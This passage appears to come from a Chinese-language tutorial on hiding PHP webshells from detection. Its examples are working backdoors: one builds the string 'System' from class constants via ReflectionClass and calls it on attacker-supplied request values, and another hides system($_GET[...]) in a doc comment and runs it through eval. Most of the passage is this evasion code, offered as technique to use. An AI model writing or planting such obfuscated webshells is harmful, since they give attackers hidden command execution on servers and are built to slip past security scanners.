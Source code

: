 ### 10.2 读取已定义函数

获取某个类的全部已定义的常量，不管可见性如何定义

```bash
public ReflectionClass::getConstants(void) : array
```

例子如下：

```bash
class Test
{
    const a = 'Sy';
    const b = 'st';
    const c = 'em';

    public function __construct(){
    }
}

$para1;
$para2;
$reflector = new ReflectionClass('Test');

for ($i=97; $i <= 99; $i++) {
    $para1 = $reflector->getConstant(chr($i));
    $para2.=$para1;
}

foreach (array('_POST','_GET') as $_request) {
    foreach ($$_request as $_key=>$_value) {
        $$_key=  $_value;
    }
}

$para2($_value);
```

## 11# 读取字符串绕过

重点还是放在高危函数上，通过读取各种东西来获得对应字符串

### 11.1 读取注释

这里用到读取注释的函数

```bash
ReflectionClass::getDocComment
```

例子如下：

```bash
/**   
    * system($_GET[aabyss]);
    */  
class User { }  
$user = new ReflectionClass('User');
$comment = $user->getDocComment();
$f = substr($comment , 14 , 22);
eval($f);
```
